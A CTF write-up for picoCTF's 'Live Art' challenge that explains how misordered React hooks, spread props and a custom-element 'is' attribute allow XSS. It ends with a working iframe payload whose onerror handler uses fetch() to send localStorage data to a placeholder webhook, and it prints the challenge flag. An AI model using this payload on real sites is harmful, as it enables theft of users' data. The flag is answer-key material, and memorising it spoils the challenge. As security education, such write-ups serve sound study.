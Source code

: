 # Live Art

### Problem 

You must exploit the React application via XSS to obtain the flag. 

### Solution

This challenge requires a significant amount of prerequisite knowledge. However, nearly all the teams that solved this challenge did not know how their exploit worked. In this writeup I will explain exactly how the exploit works, on top of how to solve it. 

To start off, we must know that React is inherently very resistant to XSS attacks. React automatically escapes text provided such that even if you do manage to inject script content, the page will not run it and will harmless display a `<script>`.

Upon inspecting the source code, we can see that there are 2 possible vectors to XSS this website. The first is through the art viewing page, where you can impersonate a peer and send your own image src, thus being able to freely control the `src` attribute of an image. However, any attempts to escape out of the `src` attribute will result in utter failure, thanks to the way React works. The second is through the error page. On this page you are able to control the content of a text area as well as the `href` attribute of an anchor tag. Directly attempting to XSS through a link will result in more failures (I tried). 

Don't give up just yet! If you look at our client code, we notice that the error component is called inside the drawing component. Which seems to be placed as a child inside of the `WrapComponentError` component along with it's fellow `Viewer` component. 

Now this design is quite a strange choice. Why does the creator use the `ErrorPage` component inside the `Drawing` page when the `WrapComponentError` automatically redirects when the `Viewer` component errors? 

If we analyze the code a little bit, we can map out the role the error page plays here: 
```tsx
import { Viewer } from "../viewer";
import { ErrorPage } from "../error";
const getWrappedError = WrapComponentError(ErrorPage)
const getWrappedViewer = WrapComponentError(Viewer);
const view = bigEnough
        ? getWrappedViewer({ image })
        : getWrappedError({ error: "Please make your window bigger" });
return (
    <div>
        { view }
    </div>
);
```
This code appears to check if the screen size is big enough. If it is big enough, the page will render in the viewer, otherwise it will render the error component. You can verify this by dragging the screen size around on this page. 

Do you see the problem in this code? Probably not. It would take an extremely experienced React developer to see the bug present here. And I mean *significantly* experienced because even I didn't catch it until much later on. The people who solved this challenge merely found it by pure luck with a little guessing. 

You see, the return statement in the function is something called `JSX` (or in this case `TSX`, because it is TypeScript), which is a syntax extension to JS made by React. This syntax extension allows developers to return HTML-esque expressions in their functions, which React picks up and renders. I won't go into too much detail about that because you can read the React docs yourself, but the part I want to focus on is how React handles JSX. 

When you have a JSX expression like 
```jsx
return (<p><Cool/></p>);

function Cool() {
    return (<p>{cookieCount}</p>)
}
```
React calls the `createElement` function to construct the element, then calls `Cool` to retrieve the JSX there, which again calls `createElement` and is fed into the virtual DOM tree. `Cool` is considered a child element and is rendered under the jurisdiction of it's parent. 

Do you see the problem now? No? 
```tsx
const view = bigEnough
    ? getWrappedViewer({ image })
    : getWrappedError({ error: "Please make your window bigger" });
```

Instead of calling it as a JSX component, the author calls the function directly. This means whatever JSX is in `getWrappedError` or `getWrappedView` is considered a part of the `_Drawing` component, and not a child as it should be. 

Now this looks like a pretty useless bug. But it is time for us to unveil part 2 of obscure required knowledge for this challenge: hooks!

[Hooks](https://reactjs.org/docs/hooks-intro.html) and states are an integral part of React. Consider a state like a current status of any variable. Hooks can be considered wrappers around this. When the state of something changes, the component gets rerendered. This is very useful when you want to update anything on a page and don't want to trigger an entire reload. This explanation is not extremely accurate but it will do for our purposes. 

Another thing to consider is that hooks attach themselves to the component that calls it. For example, the `_Drawing` creates an `image` hook. Internally, React creates a queue for this component, and places all hooks inside this queue. If the hooks are used as intended, this is completely fine. However, as we can see the JSX was not used as intended, and this causes a pretty severe vulnerability. 

Revisiting our live art code, we can see that our `ErrorPage` creates an hook: 
```ts
const params = useHashParams<{ error: string, returnTo: string }>();
//which in turn calls: 
const [params, setParams] = React.useState(getHashParams<T>());
```
Uh-oh! Stinky! Oopsie Woopsie! A little bit of a fcky wucky! A wittle fcko boingo! 

Our code here creates a hook, and if you recall, our ErrorPage was treated as a part of the `_Drawing` page. This means that the hook is now attached to the `_Drawing` component instead of the `ErrorPage` component and placed in the hook queue for `_Drawing`. My stinky-meter is rising. 

Let's take a look at `Viewer`. We are greeted with 
```ts
const [dimensions, updateDimensions] = React.useReducer(//yada yada)
```
Now `useReducer` is another form of a hook. Uh-oh again! This hook is also placed in the former-parent's queue! Moreover, when React accesses the state, it might access the wrong one due to these states being accessed via queue index! My stinky-meter is not doing very well. 

Now basically, if we manage to do a little trickery, we can fool React into using `params` hook from the `ErrorPage` as the `dimensions` of the `Viewer`. Quite stinky indeed.

Now if we scroll down a little...
```tsx
return (
    <div>
        <h1>Viewing</h1>
        <img src={props.image} { ...dimensions }/>
    </div>
)
```
I am heartbroken. The author used spread syntax here. What spread syntax (`...`) does is that it "deflates" the object. For example, if `dimensions` was `{test: 'hi'}`, the code is similar to: `<img src={props.image} { test: 'hi' }/>`. My stinky meter has shattered. Now that's dangerous, don't ya think?

Now we kind of know how to do pwn now: 
1. Start window at < 600px wide and attach an error hash payload (e.g. `#test=hi`) to the link. We want the error page to be triggered first so the hook is placed into the queue. 
2. Increase page width. We can only fire the `resize` event once. If we do it more than once React will place the queue properly. We want to make sure that when the hook initializes in `Viewer` it accesses the incorrect state in the queue which contains our malicious payload. 
3. PWN!

Now that we can inject anything we want into that image, we can try injecting an `onerror` attribute along with a faulty `src` to trigger the JS. However, when we try this, the resize causes the `onerror` to simply vanish. 

Onto part 3 of obscure React/HTML knowledge! This is the custom component clue provided. When an HTML element has an `is` attribute, it is defined as a custom element. Taking a closer look at how React renders things internally, it appears that it looks at `isCustomComponentTag`, and if it exists, renders whatever you want it to without giving you a hassle. Apparently, React bails on handling props because it assumes that, since you are using a custom element, you will be handling the props yourself ([citation](https://ethanwu.dev/blog/2021/07/14/redpwn-ctf-2021-md-bin/)). 

This means that if you attach `&is=` to your URL, the JS should run. Now we basically have our solution: 
1. Open popup/iframe to `http://localhost:4000/drawing/wiudsaadwas#error={do_stuff_here}&src=stuff&is=` with a size of < 600px
2. Set size to 601 px
3. Win

To do this, we can use the following payload: 
```html
<body>
    <iframe id="iframe" src="http://localhost:4000/drawing/syahdas#onerror=fetch('WEBHOOK',{method:'POST',headers:[['Content-Type','application/json']],body:JSON.stringify({content:window.localStorage.getItem('username')})})&src=urmom&is=" width="599"></iframe>
    <script>
        setTimeout(function() {
            document.getElementById("iframe").width = 601;
        }, 2000)
    </script>
</body>
```
This code will open an iframe to the page at 599 px, set iframe to 601 px afer 2 seconds, and the code on the page will execute, sending the localStorage content to us through a webhook. 

To PWN successfully, you will need to host this on your own HTTP server and then send the link through the XSS submission page. 

Yay!

Our flag is then `picoCTF{beam_me_up_reacty_eb269a4c}`

P.S. I solved this challenge after it was finished
